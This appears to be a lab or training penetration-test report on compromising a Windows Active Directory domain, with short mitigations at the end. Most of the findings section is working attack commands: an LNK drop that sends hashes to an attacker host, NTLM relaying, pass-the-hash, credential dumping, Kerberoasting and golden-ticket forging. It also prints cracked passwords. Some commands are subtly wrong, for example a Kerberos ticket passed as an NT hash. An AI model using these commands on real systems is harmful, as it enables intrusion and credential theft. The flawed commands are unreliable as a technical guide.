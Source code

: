 # Penetration Testing Report for Doomsday Labs

## Executive Summary
This document presents a detailed account of the penetration testing executed against Doomsday Labs' network, covering IP addresses from 10.100.1.2 to 10.100.1.7. The primary goal was to identify vulnerabilities within the network and find potential security risks using various techniques including OSINT, SMB Relay attacks, Credential Dumping, and Active Directory Exploitation.

## Test Environment
- **Scope**: Examined IP addresses range from 10.100.1.2 to 10.100.1.7.
- **Operating Systems**: Targets on Windows Server 2019; Attacks from Kali Linux.
- **Tools Used**: Nmap, Crackmapexec, Responder, Hashcat, Impacket, Bloodhound, Neo4j, pypykatz/mimikatz, Evil-WinRM.

## Key Exploits and Findings

### LNK File Drop
- **Objective**: To obtain FileMaker's NetNTLM hash via a crafted .LNK file.
- **Methodology**:
    - Created a .LNK file targeting the attacker’s Kali machine.
    - Deployed using the command:
        ```
        crackmapexec smb 10.100.1.4 -u info -p WhenTomorrowisNot@nOption2024 -M slinky -o server=10.100.1.76 name=JK_Flag
        ```
    - Captured the NetNTLM hash using Responder:
        ```
        sudo responder -I tun0 -A
        ```
    - The hash was secured and logged from `/usr/share/responder/logs`.

### SMB Relay and Credential Harvesting
- **Target File**: `targets.txt` — includes scoped IP addresses for testing.
- **Approach**: 
    - Conducted SMB Relay attacks to capture and relay NTLM hashes using:
        ```
        crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt
        impacket-ntlmrelayx -smb2support -tf targets.txt
        ```
    - Successfully gathered initial credentials for deeper access into the network.

### Credential Dumping
- **Tools Utilized**: Evil-WinRM, pypykatz.
- **Execution**:
    ```
    evil-winrm -i 10.100.1.4 -u filemaker -H 322e0b51ca281c55:F1F9E4FF7872D084AC0E2CB11DE7D2C0
    ```
- **Outcome**:
    - Accessed various hosts using compromised credentials.
    - Conducted manual credential dumping with pypykatz.
    - **Decrypted Password**: `Football24`

### Active Directory and Kerberos Attacks
- **Active Scanning**:
    ```
    impacket-GetADUsers doomsdaylabs.net/filemaker:Football24 -dc-ip 10.100.1.2 -all
    ```
- **Kerberoasting**:
    ```
    impacket-GetUserSPNs doomsdaylabs.net/filemaker -dc-ip 10.100.1.2 -request
    ```
    - Kerberos tickets were targeted for cracking via Hashcat.
- **Pass the Ticket & Creating Golden Tickets**:
    ```
    impacket-ticketer -nthash doIF0jCCBc6gAwIBBaEDAgEWooIEyz...[snipped]...NXU/rX266m632YeSk3csEUpoKMTPZ -domain-sid S-1-5-21-2774200336-3400690103-1452933870-1111 -domain doomsdaylabs.net da.admin
    KRB5CCNAME=./Administrator.ccache impacket-secretsdump -k -no-pass -dc-ip 10.100.1.2 -target-ip 10.100.1.2 dc.doomsdaylabs.net
    ```
    - **Plain Password**: `Sunshine24`

### Bloodhound Analysis for Lateral Movement
- **Objective**: To trace and exploit potential lateral movement pathways using Bloodhound.
- **Procedure**:
    - Continuously employed Bloodhound to map administrative privilege escalations throughout the network.

## Lateral Movement Pathways
- **Initial Setup**:
    - An LNK file was strategically placed on an SMB Share to intercept FileMaker's NetNTLM hash, facilitating early network entry.
- **Progressive Actions**:
    - Used the obtained credentials for lateral movements, Kerberoasting, and ultimately for accessing the domain controller.

## Mitigations
- **SMB Relay Attack Prevention**: Implement SMB signing and enforce stringent authentication measures to curb relay attacks.
- **Credential Security Enhancement**: Improve monitoring of credential usage and enforce multi-factor authentication where feasible.
- **Active Directory Maintenance**: Regularly update and audit Active Directory configurations. Utilize tools like Bloodhound to preemptively identify and mitigate unusual access patterns or potential escalations.

## Conclusion
The penetration test exposed multiple critical vulnerabilities that could potentially be exploited to gain unauthorized access and control over network resources.


## References
- [Hashcat Rule-based Attack Guide](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- [CrackMapExec Tool on Kali](https://www.kali.org/tools/crackmapexec/)
- [Using Hashcat for Rule-based Attacks](https://www.armourinfosec.com/performing-rule-based-attack-using-hashcat/)

